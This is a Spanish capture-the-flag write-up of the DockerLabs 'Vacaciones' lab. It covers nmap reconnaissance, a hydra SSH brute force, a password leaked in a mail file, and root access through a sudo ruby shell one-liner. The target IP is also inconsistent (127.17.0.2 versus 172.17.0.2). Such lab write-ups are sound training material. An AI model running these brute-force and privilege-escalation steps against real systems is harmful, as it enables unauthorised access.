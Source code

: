 ```yaml
---
title: Vacaciones
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-04
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-vacaciones/vacaciones_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - data leaks
  - password attacks
  - sudo abuse
  - information gathering
  - web analysis
  - user pivoting
  - privilege escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.062 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.062/0.062/0.062/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzT6jdfo9QUX+9zCmyJQNTcAJXdhXByneCfqA9I7cXPBFGDGgxNAfQdoiqH3EMiTjf+maPlCNyVHGFl+sClQa5sJwdrbWZiJPxfxGkCtWiSrRdKKUKt/7rCMKMOy79bFRvurgss+57tsglfXkE9FPkZGd3mLruXt5Lyb+8uhFWpW58Df6ZUoSsJi7n0bkXNpEzJAzYHNmRRtv0RsGDFosi/t5KUCMPX67jbM8jsApIVwFIQBTiwzwGQn33G2ZoAJy/NYZ9dkuN2cKM2uItovo25daA+0/SxEfHqAHGquvoMKSj8pcX3qZVD7cGWlsn9c5QNzHRC2DZUSHrK7UIaG0r
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMD2Z/ZotorXbs6zP9Sg9XenjSX0HIjYjoEH2cAV7aDoQXZKrssz5AJ98j8b4ntOPGfVehrcRv9X7lKswOea9HM=
|   256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK/0ZadHoPSGKg31xFAhPaX854MMS09s5JgdzqmD3jCl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[127.17.0.2]
```

---
## Web Analysis

Al analizar la página web, inicialmente parece estar completamente vacía. 

![](assets/img/dockerlabs-writeup-vacaciones/vacaciones1.png)

Sin embargo, al inspeccionar el código fuente, encuentro el siguiente comentario:

![](assets/img/dockerlabs-writeup-vacaciones/vacaciones2.png)

Este comentario sugiere dos posibles nombres de usuario ```Juan``` y ```Camilo```. Dado que no hay más pistas disponibles, decido enfocar la prueba en el servicio SSH para intentar un ataque de fuerza bruta utilizando uno de los nombres.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

![](assets/img/dockerlabs-writeup-vacaciones/vacaciones3.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ ssh camilo@127.17.0.2
camilo@127.17.0.2's password: 
$ id
uid=1001(camilo) gid=1001(camilo) groups=1001(camilo)
```

---
## User pivoting

Inicio una shell interactiva.

```terminal
$ script /dev/null -c /bin/bash
```

Analizo los usuarios disponibles en el sistema que tienen acceso a una shell.

Además, verifico usuarios configurados con ```sh``` como su shell:

```terminal
camilo@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash

camilo@kali:~$ cat /etc/passwd | grep /sh$
juan:x:1000:1000::/home/juan:/bin/sh
camilo:x:1001:1001::/home/camilo:/bin/sh
pedro:x:1002:1002::/home/pedro:/bin/sh
```

Dentro del directorio de correo de Camilo ```/var/mail/camilo```, descubro un archivo de texto que contiene un mensaje con información importante.

```terminal
camilo@kali:~$ cat /var/mail/camilo/correo.txt 
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Este mensaje revela una contraseña asociada al usuario ```Juan```.

```terminal
camilo@kali:~$ su juan
Password: 2k84dicb

$ id
uid=1000(juan) gid=1000(juan) groups=1000(juan)
```

---
## Privilege Escalation

Inicio una shell interactiva.

```terminal
$ script /dev/null -c /bin/bash
```

El usuario ```juan``` puede ejecutar el binario ```/usr/bin/ruby``` como ```root``` sin necesidad de proporcionar una contraseña.

```terminal
juan@kali:~$ sudo -l
Matching Defaults entries for juan on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Según [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#sudo), el binario ```/usr/bin/ruby``` permite ejecutar comandos arbitrarios como superusuario.

```terminal
juan@kali:~$ sudo ruby -e 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
```